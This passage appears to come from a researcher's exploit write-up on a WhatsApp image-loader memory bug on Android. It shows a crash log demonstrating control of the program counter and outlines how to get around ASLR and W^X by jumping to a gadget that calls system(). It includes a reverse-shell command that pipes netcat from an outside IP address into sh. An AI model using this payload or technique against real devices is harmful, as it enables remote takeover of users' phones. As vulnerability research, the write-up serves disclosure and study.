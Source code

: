 ```
10-02 11:09:38.497 18071 18071 F DEBUG   : Build fingerprint: 'google/taimen/taimen:8.1.0/OPM1.171019.011/4448085:user/release-keys'
10-02 11:09:38.497 18071 18071 F DEBUG   : Revision: 'rev_10'
10-02 11:09:38.497 18071 18071 F DEBUG   : ABI: 'arm64'
10-02 11:09:38.497 18071 18071 F DEBUG   : pid: 17928, tid: 18059, name: image-loader  >>> com.whatsapp <<<
10-02 11:09:38.497 18071 18071 F DEBUG   : signal 6 (SIGABRT), code -6 (SI_TKILL), fault addr --------
10-02 11:09:38.497 18071 18071 F DEBUG   :     x0   0000000000000000  x1   000000000000468b  x2   0000000000000006  x3   0000000000000008
10-02 11:09:38.497 18071 18071 F DEBUG   :     x4   0000000000000000  x5   0000000000000000  x6   0000000000000000  x7   7f7f7f7f7f7f7f7f
10-02 11:09:38.497 18071 18071 F DEBUG   :     x8   0000000000000083  x9   0000000010000000  x10  0000007da3c81cc0  x11  0000000000000001
10-02 11:09:38.497 18071 18071 F DEBUG   :     x12  0000007da3c81be8  x13  ffffffffffffffff  x14  ff00000000000000  x15  ffffffffffffffff
10-02 11:09:38.497 18071 18071 F DEBUG   :     x16  00000055b111efa8  x17  0000007e2bb3452c  x18  0000007d8ba9bad8  x19  0000000000004608
10-02 11:09:38.497 18071 18071 F DEBUG   :     x20  000000000000468b  x21  0000000000000083  x22  0000007da3c81e48  x23  00000055b111f3f0
10-02 11:09:38.497 18071 18071 F DEBUG   :     x24  0000000000000040  x25  0000007d8bbff588  x26  00000055b1120670  x27  000000000000000b
10-02 11:09:38.497 18071 18071 F DEBUG   :     x28  00000055b111f010  x29  0000007da3c81d00  x30  0000007e2bae9760
10-02 11:09:38.497 18071 18071 F DEBUG   :     sp   0000007da3c81cc0  pc   0000007e2bae9788  pstate 0000000060000000
10-02 11:09:38.499 18071 18071 F DEBUG   :
10-02 11:09:38.499 18071 18071 F DEBUG   : backtrace:
10-02 11:09:38.499 18071 18071 F DEBUG   :     #00 pc 000000000001d788  /system/lib64/libc.so (abort+120)
10-02 11:09:38.499 18071 18071 F DEBUG   :     #01 pc 0000000000002fac  /system/bin/app_process64 (art::SignalChain::Handler(int, siginfo*, void*)+1012)
10-02 11:09:38.499 18071 18071 F DEBUG   :     #02 pc 00000000000004ec  [vdso:0000007e2e4b0000]
10-02 11:09:38.499 18071 18071 F DEBUG   :     #03 pc deadbeeefffffffc  <unknown>
```

## Deal with ASLR and W^X
After controlling the PC, we want to achieve remote code execution. In Android, we can not execute code on non-executable regions (i.e. stack and heap). The easiest way to to execute the below command:
```
system("toybox nc 192.168.2.72 4444 | sh");
```
For that, we need PC to point to `system()` function in libc.so and X0 to point to `"toybox nc 192.168.2.72 4444 | sh"`.
This cannot be done directly. We need to first let PC jumps to an intermediate gadget, which sets X0 to point to `"toybox nc 192.168.2.72 4444 | sh"` and jump to `system()`.
From the disassembly code around `info->rewindFunction(info);`, we can see that both X0 and X19 point to `info->rasterBits` (or `info`, because they both point to the same location), while X8 is actually `info->rewindFunction`.
